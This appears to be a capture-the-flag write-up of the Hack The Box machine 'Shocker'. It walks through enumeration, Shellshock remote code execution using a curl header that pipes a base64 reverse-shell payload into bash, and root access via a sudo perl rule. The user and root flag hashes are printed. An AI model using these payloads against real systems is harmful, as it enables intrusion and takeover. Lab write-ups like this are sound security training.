



+++
title = "Shocker"
date = "2024-02-15"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-09-30

**Created by**: [mrb3n](https://app.hackthebox.com/users/2984)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.7`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.56`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Shocker using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.56" -p-
```

```
<SNIP>
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.56" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.56" -p "80,2222" -sV
```

```
<SNIP>
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Shocker is running Linux, and the
version of Apache suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.56" -p "80,2222" -sC
```

```
<SNIP>
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
<SNIP>
```

## Services enumeration

### Apache

#### Exploration

Let's browse to `http://10.10.10.56/`.



That's... weird. 'Don't Bug Me!'? Are we supposed to find a bug?

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `Apache 2.4.18`, we
find nothing.

#### Site crawling

Let's see if we can find any linked web pages or directories.

```sh
❯ katana -u "http://10.10.10.56/"
```

```
http://10.10.10.56/
```

We only find the homepage.

#### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u "http://10.10.10.56/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e "/"
```

```
<SNIP>
[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 104ms]
| URL | http://10.10.10.56/cgi-bin/
    * FUZZ: cgi-bin/

[Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 98ms]
| URL | http://10.10.10.56/icons/
    * FUZZ: icons/

[Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 84ms]
| URL | http://10.10.10.56//
    * FUZZ: /

[Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 87ms]
| URL | http://10.10.10.56/
    * FUZZ: 

[Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 91ms]
| URL | http://10.10.10.56/server-status/
    * FUZZ: server-status/

[Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 91ms]
| URL | http://10.10.10.56/server-status
    * FUZZ: server-status
<SNIP>
```

There's a `/cgi-bin/` folder that we can't access. However, it indicates that
Apache is using the module `mod_cgi`, which allows Apache to execute CGI
scripts.

Now let's sese if we can find CGI scripts.

```sh
❯ ffuf -v -c -u "http://10.10.10.56/cgi-bin/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e ".cgi,.pl,.py,.sh,.rb"
```

```
<SNIP>
[Status: 200, Size: 118, Words: 19, Lines: 8, Duration: 77ms]
| URL | http://10.10.10.56/cgi-bin/user.sh
    * FUZZ: user.sh

[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 90ms]
| URL | http://10.10.10.56/cgi-bin/
    * FUZZ:
<SNIP>
```

We find a `user.sh` Bash script.

#### Exploration

Let's browse to `http://10.10.10.56/cgi-bin/user.sh`.

It actually downloads a file!

```
Content-Type: text/plain

Just an uptime test script

 02:48:29 up 2 min,  0 users,  load average: 0.01, 0.02, 0.00
```

It looks like the output of the `uptime` Linux command. It also indicates that
it's 'an uptime test script', which confirms the idea that it's running `uptime`
to generate this file.

#### Known vulnerabilities

We're dealing with a Bash script here. I don't see how I could get a shell from
the `uptime` command... unless Bash itself is vulnerable. One famous
vulnerability is [Shellshock](https://nvd.nist.gov/vuln/detail/cve-2014-6271),
so let's check if it's present here:

```sh
❯ nmap -sS "10.10.10.56" -p "80" --script "http-shellshock" --script-args "uri=/cgi-bin/user.sh"
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
<SNIP>
```

It is!

## Foothold ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271))

[CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271), also known as
Shellshock, is a vulnerability affecting Bash version `1.14` up to `4.3`. The
vulnerability stems from the environment variables passed to Bash: it processes
trailing strings after function defined in environment variables. This allows an
attacker with access to a Bash script to get RCE.

In our case, we have a `user.sh` Bash script accessible over Apache CGI. When a
request is made to a CGI script, the web server provides the script with various
environment variables containing information about the request, including HTTP
headers! So we can define our own Bash environment variables using Apache CGI
and the `user.sh` script.

### Preparation

The Metasploit module `exploit/multi/http/apache_mod_cgi_bash_env_exec` can be
used to exploit this vulnerability, but it's not too hard to do manually.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's send a request to Shocker with this command.

```sh
❯ curl -s -o "/dev/null" -H "User-Agent: () { :;}; /bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i" "http://10.10.10.56/cgi-bin/user.sh"
```

If we check our listener:

```
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.56] 52060
<SNIP>
shelly@Shocker:/usr/lib/cgi-bin$
```

It caught the reverse shell!

### Establishing persistence

I tried to use SSH to establish persistence, but public key authentication is
disabled.

### Spawning a tty

Let's use this one-liner to spawn a tty:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `shelly`.

### Architecture

What is Shocker's architecture?

```sh
shelly@Shocker:/usr/lib/cgi-bin$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Shocker is using.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
```

Okay, so it's Ubuntu 16.04.

### Kernel

Let's find the kernel version of Shocker.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ uname -r
```

```
4.4.0-96-generic
```

It's `4.4.0`.

### Users

Let's enumerate all users.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
root
shelly
```

There's `shelly` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
list
lp
lpadmin
lxd
mail
man
messagebus
mlocate
netdev
news
nogroup
operator
plugdev
proxy
root
sambashare
sasl
shadow
shelly
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-bus-proxy
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ ifconfig
```

```
ens192    Link encap:Ethernet  HWaddr 00:50:56:b9:51:a3  
          inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:51a3/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:51a3/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1392980 errors:0 dropped:43 overruns:0 frame:0
          TX packets:1384190 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:253239608 (253.2 MB)  TX bytes:693934641 (693.9 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:16800 errors:0 dropped:0 overruns:0 frame:0
          TX packets:16800 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:1244592 (1.2 MB)  TX bytes:1244592 (1.2 MB)
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Shocker's hostname?

```sh
shelly@Shocker:/usr/lib/cgi-bin$ hostname
```

```
Shocker
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ cat "/home/shelly/user.txt"
```

```
f99fcdcd80ce825ca83e7a8bfcd9099b
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
```

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We do! We can execute the `/usr/bin/perl` binary as `root`.

## Privilege escalation (Sudo permissions)

If we search [GTFOBins](https://gtfobins.github.io/) for `perl`, we find
[an entry](https://gtfobins.github.io/gtfobins/perl/). Luckily, it has a
['Sudo' section](https://gtfobins.github.io/gtfobins/perl/#sudo)!

### Exploitation

I'll use the given command to abuse our `sudo` permissions, but I'll change the
shell to `/bin/bash`:

```sh
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/bash -i";'
```

```
root@Shocker:/usr/lib/cgi-bin#
```

Yay!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Shocker as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@Shocker:/usr/lib/cgi-bin# cat "/root/root.txt"
```

```
5d163bbc8811dee813497e69b37d2a7f
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Not too easy' and the root flag as 'Very easy'. The
foothold was hard to identify, mainly because the `cgi-bin` Apache folder
required a trailing slash to find, and the wordlist I used didn't contain one.
It also required a bit of research to find CGI scripts extensions, and then to
find a valid Bash vulnerability. It was easy to exploit though. However, the
privilege escalation only required proper enumeration to identify and was very
easy to take advantage of.

Thanks for reading!
